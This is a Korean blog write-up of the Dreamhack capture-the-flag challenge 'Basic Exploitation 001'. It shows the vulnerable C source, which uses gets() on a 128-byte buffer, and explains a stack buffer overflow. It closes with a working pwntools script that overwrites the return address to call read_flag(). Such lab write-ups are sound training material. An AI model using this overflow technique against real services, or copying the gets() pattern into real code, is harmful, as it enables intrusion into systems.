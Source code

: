 ```yaml
---
layout: post
title: Pwnable | [Dreamhack] Basic Exploitation 001
subtitle: Dreamhack-Pwnable Basic Exploitation 001
categories: Pwnable
tags: [Pwnable, dreakhack, Shell, Pentest]
---
```


**본 문제는 Dreamhack을 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

문제는 <a href = "https://dreamhack.io/wargame/challenges/">dreamhack.io</a>를 들어가시면 확인할 수 있습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/188456086-910f189b-efd0-4046-b9e4-0941f1ea5a71.jpg" width = 500>
</p>

환경 정보를 보면 NX가 활성화되어 있는 것을 알 수 있다. 그렇다는 것을 Shellcode를 대입하더라도 스택 영역에 실행 권한이 없어 Shellcode를 실행하지 못하고 종료하게 된다. 주어진 파일을 확인해보겠습니다.

## 문제 풀이

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];
    initialize();
    gets(buf);
    return 0;
}
```

`read_flag()`함수가 flag를 읽어주는 함수로 되어 있다. 하지만 main에는 read_flag()를 실행할 곳이 없다. **get()**함수는 크기 상관없이 읽어드리기에 buf의 크기를 넘겨 RET에 read_flag() 위치를 대입하면 해결될 것으로 보인다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/188460027-f08259f3-d443-4643-9b86-6fe36fcfda6d.jpg" width = 500>
</p>

`buf[0x80]` 위 빨간 네모칸을 통해서 총 128byte만큼 buf에 할당하고 그 위치를 `gets()`로 입력 받는다.

그리고 `read_flag()`의 함수 호출 위치를 알아낸다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/188460919-def60535-b780-4692-a0d5-296c241a0439.jpg" width = 380>
</p>

**그렇다면 Buf(128byte) + SFP(4byte) + RET(read_flag()의 4byte)로 flag를 읽어올 수 있다.**

```python
from pwn import *

p = remote('host3.dreamhack.games', 22987)

elf = ELF('./basic_exploitation_001')
read_flag = elf.symbols['read_flag'] # 0x80485b9
payload = b''
#dummy = b'\x90' * 128
SFP = b'S' * 4

payload += payload.ljust(128, b'\x90')
#payload += dummy
payload += SFP
payload += p32(read_flag)

p.sendline(payload)
p.interactive()
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/188464458-831d66a4-be19-4cd8-a4a1-8f2819e6ceb6.jpg" width = 380>
</p>

이전 문제보다는 더욱 쉬운 느낌이였다. `read_flag = elf.symbols['read_flag']`처럼 직접 read_flag의 함수 주소를 명시하지 않고 pwntools를 이용해서 가져오는 것도 가능하다.